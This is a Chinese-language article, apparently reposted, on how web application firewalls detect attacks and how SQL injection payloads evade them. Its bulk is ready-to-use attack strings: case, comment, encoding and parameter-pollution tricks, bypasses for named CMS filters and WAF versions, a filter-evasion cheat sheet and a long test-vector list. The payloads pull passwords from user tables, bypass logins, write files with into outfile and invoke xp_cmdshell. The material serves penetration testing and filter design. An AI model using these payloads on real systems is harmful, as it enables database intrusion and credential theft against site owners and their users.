







原文 by r00tgrok
  
## 0x01 WAF的常见特征
  
之所以要谈到WAF的常见特征，是为了更好的了解WAF的运行机制，这样就能增加几分绕过的机会了。本文不对WAF做详细介绍只谈及几点相关的。
  
总体来说WAF(Web Application Firewall)的具有以下四个方面的功能  
  
1. 审计设备用来截获所有HTTP数据或者仅仅满足某些规则的会话 
  
2. 访问控制设备用来控制对Web应用的访问，既包括主动安全模式也包括被动安全模式 
  
3. 架构/网络设计工具，当运行在反向代理模式他们被用来分配职能，集中控制虚拟基础结构等。 
  
4. WEB应用加固工具，这些功能增强被保护Web应用的安全性，它不仅能够屏蔽WEB应用固有弱点而且能够保护WEB应用编程错误导致的安全隐患。 
  

  
WAF的常见特点  
  
* 异常检测协议，拒绝不符合HTTP标准的请求 
  
* 增强的输入验证，代理和服务端的验证而不只是限于客户端验证 
  
* 白名单&黑名单，白名单适用于稳定的We应用黑名单适合处理已知问题 
  
* 基于规则和基于异常的保护，基于规则更多的依赖黑名单机制，基于异常更为灵活 
  
* 状态管理重点进行会话保护 
  
* 另还有Coikies保护、抗入侵规避技术、响应监视和信息泄露保护等 
  

  
如果是对于扫描器，WAF有其识别之道  
  
扫描器识别主要由以下几点  
  
1) 扫描器指纹(head字段/请求参数值)，以wvs为例会有很明显的Acunetix在内的标识   
  
2)  单IP+ cookie某时间段内触发规则次数   
  
3)  隐藏的链接标签等(`<a>`)   
  
4)  Cookie植入   
  
5)  验证码，验证扫描器无法自动填充验证码   
  
6)  单IP请求时间段内Webserver返回http状态404比例，扫描器探测敏感目录基于字典找不到文件则返回404   
  

  
## 0x02 绕过WAF的方法
  
从笔者目前找到的资料来看，可以把这些绕过waf的技术分为9类，包含从初级到高级技巧
  
a) 大小写混合 
  
b)替换关键字 
  
c)使用编码 
  
d)使用注释 
  
e)等价函数与命令 
  
f)使用特殊符号 
  
g)HTTP参数控制 
  
h)缓冲区溢出 
  
i)整合绕过 
  

  
a) 大小写绕过
  
大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 匹配时大小写不敏感便无法绕过，这是最简单的绕过技术
  
`z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4 ` 
  

  
示例场景可能的情况为filter的规则大小写敏感，现在直接使用这种绕过技术成功的可能性已经不高了吧
  
b)替换关键字
  
这种情况下大小写转化无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过
  
`z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4` 
  

  
替换关键字同样是很基础的技术，也可以构造得更复杂SeLSeselectleCTecT，关键要看正则表达式会进行几次匹配处理了
  

  
c)使用编码
  
1.URL编码  
在Chrome中输入一个链接非保留字的字符，浏览器会对其URL编码如空格变为%20、单引号%27、左括号%28、右括号%29
  
普通的URL编码可能无法实现绕过，不过存在某种情况URL编码只进行了一次解码过滤，可以用两次编码绕过
  
`page.php?id=1%252f%252a*/UNION%252f%252a/SELECT` 
  

  
2.十六进制编码  
`z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))`
  

  
示例代码中前者是对单个字符十六进制编码，后者则是对整个字符串编码，相对来说较少见一点
  

  
3.Unicode编码  
  
Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了
  
看一下常用的几个符号的一些Unicode编码
  
```
  
单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
  

  
空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
  

  
左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
  

  
右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
  
```
  
举例：
  
```
  
?id=10%D6'%20AND%201=2%23
  
SELECT 'Ä'='A'; #1
  
```
  
两个示例中，前者利用双字节绕过，比如对单引号转义操作变成&#92;'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用。
  
第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过。
  
另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下。
  
常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子。

4.emoji 表情  
emoji是一串unicode字集组成，一个emoji图标占5个字节，mysql 也支持emoji的存储，在mysql下占四个字节:   
  
既然在查询的时候%23（行内注释）会忽略掉后面的，那么Emoji就可以插入到%23与%0A之间。   
  
  
d) 使用注释
  
看一下常见的用于注释的符号有哪些
  
`//, -- , /**/, #, --+,--  -, ;--a` 
  

  
1.普通注释
```  
z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4 
'union%a0select pass from users#
```
  

  
`/**/`在构造的查询语句中插入注释规避对空格的依赖，或关键字识别`#`、`--+`用于终结语句的查询
  

  
2.内联注释
  
相比普通注释内联注释用的更多`/!content/`，只有MySQL会正常识别content的内容其他 
  
```
  
index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3 
  
index.php?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…
  
```
  
两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括`/`、`*` 在内的这些字符能正常使用。
  

  
e)等价函数
  
与命令有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用
  
1.函数或变量
  
```
  
hex()、bin() ==> ascii()
  
sleep() ==>benchmark()
  
concat_ws()==>group_concat()
  
mid()、substr() ==> substring()
  
@@user ==> user()
  
@@datadir ==> datadir()
  
```
  
举例substring()和substr()无法使用时
  
`?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74`　 
  

  
或者
  
``` sql
  
substr((select 'password'),1,1) = 0x70 
  
strcmp(left('password',1), 0x69) = 1 
  
strcmp(left('password',1), 0x70) = 0 
  
strcmp(left('password',1), 0x71) = -1 
  
```
  
上述这几个示例用于说明，有时候当某个函数不能使用时还可以找到其他的函数替代其实现，至于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论
  

  
2.符号and 和 or
  
有可能不能使用可以试下`&&`和`||` 能不能用，还有 `=` 不能使用的情况可以考虑尝试`<`、`>`，因为如果不小于又不大于那便是等于了
  
再看一下用得很多的空格，可以使用如下符号代替其使用
  
`%20 %09 %0a %0b %0c %0d %a0 /**/ `
  

  
3.生僻函数MySQL/PostgreSQL支持XML函数
  
``` sql
  
Select UpdateXML('<script x=_></script> ','/script/@x/','src=//evil.com');
  
?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
  
SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql
  
?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
  
```
  
MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter，要想涵盖这么多东西从实际上来说不太可能而且代价太大，因此黑名单的确是更适合处理已知的情况
  

  
f) 特殊符号
  
这里我把非字母数字的字符都规在了特殊符号一类，这些符号有特殊的含义和用法涉及信息量比前面提到的几种都要多
  
先看下下面的几个例子
  
```
  
1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
  
2.神奇的"-+."，select+id-1+1.from users; '+'是用于字符串连接的，'-'和'.'在此也用于连接，可以逃过空格和关键字过滤
  
3.@符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
  
4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制
  
```
  
可见使用这些字符的确是能做很多事，也证实了那句老话只有想不到没有做不到
  
笔者搜罗了部分可能发挥大作用的字符(这里未包括`'`、`*`、`/` 等在内，考虑到前面已经出现较多次了)
  
`、~、!、@、%、()、[]、.、-、+ 、|、%00
  

  
举例
  
关键字拆分
  
```
  
'se'+'lec'+'t'
  
%S%E%L%E%C%T 1
  
1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
  
or --+2=- -!!!'2
  
id=1+(UnI)(oN)+(SeL)(EcT)
  
```
  
本节最后再给出一些和这些字符多少有点关系的操作符供参考
  
`> > , <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN`
  

  
使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各数据库对符号的处理是不尽相同的，另一方面你得充分了解这些符号的特性和使用方法才能会考虑利用其实现绕过
  

  
g) HTTP参数控制
  
这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制
  
1.HPP(HTTP Parameter Polution)举例
  
`/?id=1;select+1&id=2,3+from+users+where+id=1—`
  
`/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`
  

  
HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况不同的Web服务器处理方式如下
  
具体WAF如何处理要看其设置的规则，不过就示例中感觉最后一个来看有较大可能绕过
  

  

  
2.HPF(HTTP Parameter Fragment)
  
这种方法是HTTP分割注入，同CRLF略有相似之处(使用控制字符%0a、%0d等换行)
  
举例　
  
`/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`
  
`select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—`
  

  
看完上面两个示例发现和HPP最后一个示例很像，不同之处在于参数不一样，这里是在不同的参数之间进行分割，结果到了数据库执行查询时再合并语句。
  

  
3.HPC(HTTP Parameter Contamination)
  
这一概念见于Beyond SQLi: Obfuscate and Bypass这里Contamination意为污染
  
RFC2396定义了如下一些字符
  
```
  
Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()  
  
Reserved : ; / ? : @ & = + $ ,  
  
Unwise : { } | \ ^ [ ] `
  
```
  

  
不同的Web服务器处理处理构造得特殊请求时有不同的逻辑
  

  

  
以魔术字符%为例，Asp/Asp.net会受到影响
  

  

  

  
h) 缓冲区溢出(Advanced)
  
缓冲区溢出用于对付WAF在内的软件，本身有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度就会引发bug，从而实现绕过
  
举例
  
`?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26`
  

  
示例 0xA*1000 指0xA后面 'A' 重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，也许在有些情况下可能不需要这么长也能溢出
  

  
i) 整合绕过
  
整合的意思是结合使用前面谈到的各种绕过技术，单一的技术可能无法绕过过滤机制，但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说关系到总体与局部，
  
另一方面则是多种技术的使用创造了更多的可能性组合，除非每一种技术单独都无法使用，否则它们能产生比自身大得多的能量。
  
举例
  
``` 
  
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
  
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/
  
	+like+database()– -
  
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE
  
	+TABLE_NAME=0x41646d696e--  
  
```
  
## 0x03 SQLi Filter的实现及Evasion
  
SQL Injection 时用得最多的一些关键字如下
  
`and, or, union, where, limit, group by, select, ', hex, substr, white space`
  

  
对它们的检测完整正则表达式为
  
`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)`
  

  
Filter Evasion在Beyond SQLi: Obfuscate and Bypass 以看到比较详细的解释
  
这里只做简化的说明其应对方式依次为 
  
``` sql
  
***note***:"=>"左边表示会被Filtered的语句，"=>"右边表示成功Bypass的语句，
  
左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字
  

  
and => && 　　or => ||
  

  
union select user, password from users　　 =>　　1 || (select user from users where user_id = 1) = 'admin
  

  
1 || (select user from users where user_id = 1) = 'admin'　　=>　　1 || (select user from users limit 1) = 'admin
  

  
1 || (select user from users limit 1) = 'admin' =>　　1 || (select user from users group by user_id having user_id = 
  
1) = 'admin'
  
1 || (select user from users group by user_id having user_id = 1) = 'admin' =>　1 || (select substr(group_concat
  
	(user_id),1,1) user from users )=1
  
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =>  1 || 1 = 1 into outfile 'result.txt'　或者  
  
1 || substr(user,1,1) = 'a'　
  
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=>　　1 || user_id is not null 或者 1 || 
  
	substr(user,1,1) = 0x61 或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
  
1 || substr(user,1,1) = unhex(61)　　=>   1 || substr(user,1,1) = lower(conv(11,10,36))
  
1 || substr(user,1,1) = lower(conv(11,10,36)) =>　　1 || lpad(user,7,1)
  
1 || lpad(user,7,1)　　=>　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered
  
```
  
从上面给出的示例来看没有绝对的过滤，即便平时构建一个正常SQL语句的全部关键字都被过滤了，我们也还是能找到Bypass的方法。普世的阳光和真理尚且照不到每一个角落人，为构建出来的一个工具WAF就更加不可能尽善尽美了。我们可以相信WAF能为我们抵挡很多攻击，但是绝不能百分之一百的依赖它，就算它有着世上最为健全的规则它本身也是会存在缺陷的。
  
从前面到现在基本上每条注入语句中都有数字，如果某查询的数据类型为字符串、或者做了严格限制数字要被和谐掉，这就有点棘手了，不过办法总是有的
  

  

  
上面两张图第一张是不能使用数字时通过使用数学函数得到某个数字的值，第二张则是这些数字对应的36进制的值。
  
因此有时候一个很简单的表达式可能会很复杂，或者非常长，其实际就是计算mod(a,b)
  
``` sql
  
(mod(length(trim(leading(concat(lower(conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(), pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),
  
conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi())),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*version())+true,pi()*pi(),pow(pi(), pi()))),
  
lower(conv(ceil((pi()+ceil(pi()))*pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi())*ceil(pi()+pi()),pi()*pi
  
(),pow(pi(),pi()))),
  
conv(ceil(pi()*version()),pi()*pi(),pow(pi(),pi())),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi()))),
  
lower(conv(ceil(version()*version()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi
  
(),pi())))))from(pass))),length(pass))
  
```
  

  
## 0x04 延伸及测试向量示例
  

  
a) CMS绕过实例
  
b) WAF绕过示例
  
c) SQLi Filter Evasion Cheat sheet
  
d) 测试向量
  

  
a) Web应用绕过示例
  
1. e107 CMS

``` php 
  
	$inArray = array("'", ";", "/**/", "/UNION/", "/SELECT/", "AS "); 
	  
	if (strpos($_SERVER['PHP_SELF'], "trackback") === false) { 
	  
	foreach($inArray as $res) { 
	  
	if(stristr($_SERVER['QUERY_STRING'], $res)) { 
	  
	die("Access denied."); 
	  
	}}}
  
```
Bypass:
`vuln.php/trackback?inject=UNI%6fN SELECT`  
2. PHP-Nuke CMS  

``` php
	if(isset($_SERVER['QUERY_STRING']) && (!stripos($_SERVER['QUERY_STRING'], "ad_click"))) { 
  
		$queryString = $_SERVER['QUERY_STRING']; 
	  
		if ( stripos($queryString, '%20union%20') 
	  
			OR stripos($queryString, '/*') 
	  
			OR stripos($queryString, '*/union/*') 
	  
			OR stripos($queryString, '+union+') 
	  
			OR stripos($queryString, 'concat')) 
		{ die('Illegal Operation'); }
  
```
Bypass:  
`vuln.php?inject=%a0UNI%6fN(SELECT'ad_click'`  
  
3. TYPO3 CMS  
`$val = str_replace(array("'"," ","("),"",$arrFields[$fname]); // basic defence`  
Bypass:  
vuln.php?id=1/&#42;&#42;/union%a0select/&#42;&#42;/1,pass,3&#96;a&#96;from&#96;users&#96;   
  

  
b) WAF绕过示例
  
1. ModSecurity CRS 2.0.9
   
``` sql
  
1'and 0x61=(/*foo*/SELECT mid(pass,1,1) from users limit 1,1)and'1
  
1'union/*!select*/pass,load_file(0x123456789)from users-- -
  
```
  
2. PHPIDS 0.6.4
  
```  sql
  
foo'!=@a:=0x1 div'1a false != true 　　//auth bypass
  
foo'div count(select`pass`from(users)where mid(pass,1,1)rlike lower(conv(10,pi()*pi(),pi()*pi())) )-'0
  
a'in(true) and false */*!(true)union#newline select pass`alias`from users where true*/* n'1
  
```
  
3. GreenSQL 1.3.0 
检测关键字：union, information_schema, into outfile, current_user, current_date, version
检测函数：mid(), substring(), substr(), load_file(), benchmark(), user(), database(), version()
  
``` sql
  
adm' 'in' or 1='1        // auth bypass
  
'-(1)union(select table_name,load_file('/tmp/test'),@@version
  
from /*! information_schema.tables */);%00    //select union
  
'-'' into%a0outfile '/tmp/test   //write to file
  
```
  

  
c) SQLi Filter Evasion Cheat sheet
  
``` sql
  
#注释
  
' or 1=1#
  
' or 1=1/* (MySQL < 5.1)
  
' or 1=1;%00
  
' or 1=1 union select 1,2 as `
  
' or#newline
  
' /*!50000or*/1='1
  
' /*!or*/1='1
   
#前缀
  
+ – ~ !
  
' or –+2=- -!!!'2
#操作符：
  
^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST,
  
GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL 
#空格
  
%20 %09 %0a %0b %0c %0d %a0 /**/
  
'or+(1)sounds/**/like"1"–%a0-
  
'union(select(1),tabe_name,(3)from`information_schema`.`tables`)#
#有引号的字符串
  
SELECT 'a'
  
SELECT "a"
  
SELECT n'a'
  
SELECT b'1100001'
  
SELECT _binary'1100001'
  
SELECT x'61'
#没有引号的字符串
  
 'abc' = 0×616263
  
  ' and substr(data,1,1) = 'a'#
  
  ' and substr(data,1,1) = 0x61 # 0x6162
  
  ' and substr(data,1,1) = unhex(61)    # unhex(6162)
  
  ' and substr(data,1,1) = char(97  )# char(97,98)
  
  ' and substr(data,1,1) = 'a'#
  
  ' and hex(substr(data,1,1)) = 61#
  
  ' and ascii(substr(data,1,1)) = 97#
  
  ' and ord(substr(data,1,1)) = 97# 
  
  ' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
#别名
  
select pass as alias from users
  
select pass`alias alias`from users
#字型
  
' or true = '1 # or 1=1
  
' or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
  
' or '1 # or true
  
#操作符字型
  
select * from users where 'a'='b'='c'
  
select * from users where ('a'='b')='c'
  
select * from users where (false)='c'
#认真绕过'='
  
select * from users where name = "="
  
select * from users where false = "
  
select * from users where 0 = 0
  
select * from users where true#函数过滤器ascii (97)
  
load_file/*foo*/(0×616263)
#用函数构建字符串
  
'abc' = unhex(616263)
  
'abc' = char(97,98,99)
  
 hex('a') = 61
  
 ascii('a') = 97
  
 ord('a') = 97
  
'ABC' = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36)) 
#特殊字符
  
  aes_encrypt(1,12) // 
  
  des_encrypt(1,2) // 
  
  @@ft_boolean_syntax // + -><()~*:""&|
  
  @@date_format // %Y-%m-%d
  
  @@innodb_log_group_home_dir // .\
@@new: 0
  
@@log_bin: 1
  
#提取子字符串substr('abc',1,1) = 'a'
  
substr('abc' from 1 for 1) = 'a'
  
substring('abc',1,1) = 'a'
  
substring('abc' from 1 for 1) = 'a'
  
mid('abc',1,1) = 'a'
  
mid('abc' from 1 for 1) = 'a'
  
lpad('abc',1,space(1)) = 'a'
  
rpad('abc',1,space(1)) = 'a'
  
left('abc',1) = 'a'
  
reverse(right(reverse('abc'),1)) = 'a'
  
insert(insert('abc',1,0,space(0)),2,222,space(0)) = 'a'
  
space(0) = trim(version()from(version()))
#搜索子字符串
  
locate('a','abc')
  
position('a','abc')
  
position('a' IN 'abc')
  
instr('abc','a')
  
substring_index('ab','b',1) 
#分割字符串
  
length(trim(leading 'a' FROM 'abc'))
  
length(replace('abc', 'a', "))
#比较字符串
  
strcmp('a','a')
  
mod('a','a')
  
find_in_set('a','a')
  
field('a','a')
  
count(concat('a','a'))
#字符串长度
  
length()
  
bit_length()
  
char_length()
  
octet_length()
  
bit_count()
#关键字过滤
  
Connected keyword filtering
  
(0)union(select(table_name),column_name,…
  
0/**/union/*!50000select*/table_name`foo`/**/…
  
0%a0union%a0select%09group_concat(table_name)….
  
0′union all select all`table_name`foo from`information_schema`. `tables`
#控制流
  
case 'a' when 'a' then 1 [else 0] end
  
case when 'a'='a' then 1 [else 0] end
  
if('a'='a',1,0)
  
ifnull(nullif('a','a'),1)
```  

d) 测试向量
``` sql  
%55nion(%53elect 1,2,3)-- -
+union+distinctROW+select+
  
/**//*!12345UNION SELECT*//**/
  
/**/UNION/**//*!50000SELECT*//**/
  
/*!50000UniON SeLeCt*/
  
+#uNiOn+#sEleCt
  
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
  
/*!u%6eion*/ /*!se%6cect*/
  
+un/**/ion+se/**/lect
  
uni%0bon+se%0blect
  
%2f**%2funion%2f**%2fselect
  
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  
REVERSE(noinu)+REVERSE(tceles)
  
/*--*/union/*--*/select/*--*/
  
union (/*!/**/ SeleCT */ 1,2,3)
  
/*!union*/+/*!select*/
  
union+/*!select*/
  
/**//*!union*//**//*!select*//**/
  
/*!uNIOn*/ /*!SelECt*/
  
+union+distinctROW+select+
  
-15+(uNioN)+(sElECt)
  
-15+(UnI)(oN)+(SeL)(ecT)+

id=1+UnIOn/**/SeLect 1,2,3—
  
id=1+UNIunionON+SELselectECT 1,2,3—
  
id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
  
id=1 and (select 1)=(Select 0xAA 1000 more A's)+UnIoN+SeLeCT 1,2,3—
  
id=1+un/**/ion+sel/**/ect+1,2,3--
  
id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
  
id=1+/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
  
id=1+/**/union/*&id=*/select/*&id=*/1,2,3--
  
id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x
/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
  
/*!union*/+/*!select*/+1,2,3—
  
/*!UnIOn*//*!SeLect*/+1,2,3—
  
un/**/ion+sel/**/ect+1,2,3—
  
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
  
ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+
  
FROM+information_schema.columns+WHERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),
  
9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--
?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
  
index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
  
